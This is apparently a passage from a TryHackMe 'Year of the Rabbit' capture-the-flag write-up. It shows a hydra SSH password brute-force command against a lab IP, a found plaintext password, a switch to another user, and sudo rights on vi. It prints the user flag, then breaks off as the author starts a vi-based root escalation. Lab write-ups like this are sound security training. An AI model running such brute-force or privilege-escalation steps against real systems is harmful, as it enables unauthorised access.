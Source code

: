 	hydra -l gwendoline -P passwords.txt ssh://10.10.150.79  
	1 of 1 target completed, 0 valid password found

no luck though.

-> new Day, I log in and am greet with a message on Login that I did not read the first time

	1 new message
	Message from Root to Gwendoline:

	"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

	END MESSAGE

Search for it

	locate s3cr3t
	/usr/games/s3cr3t
	/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
	/var/www/html/sup3r_s3cr3t_fl4g.php
	/var/www/html/sup3r_s3cret_fl4g
	/var/www/html/sup3r_s3cret_fl4g/index.html


	cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\!

	Your password is awful, Gwendoline. 
	It should be at least 60 characters long! Not just MniVCQVhQHUNI
	Honestly!

	Yours sincerely
	   -Root


I got the password!

	eli@year-of-the-rabbit:~$ su gwendoline
	Password: 
	gwendoline@year-of-the-rabbit:/home/eli$ sudo -l
	Matching Defaults entries for gwendoline on year-of-the-rabbit:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

	User gwendoline may run the following commands on year-of-the-rabbit:
	    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt

	gwendoline@year-of-the-rabbit:/home/eli$ cat /home/gwendoline/user.txt 
	THM{1107174691af9ff3681d2b5bdb5740b1589bae53}

### Geting Root

I know that vi is dangerous if run as root, I check GTFO Bins. I needed a bit to understand the output from sudo -l
but after some reading I think I know whats going on. I need to run vi with sudo on the user.txt. Lets try
(https://medium.com/@pettyhacks/linux-privilege-escalation-via-vi-36c00fcd4f5e)

I finaly figured it out:
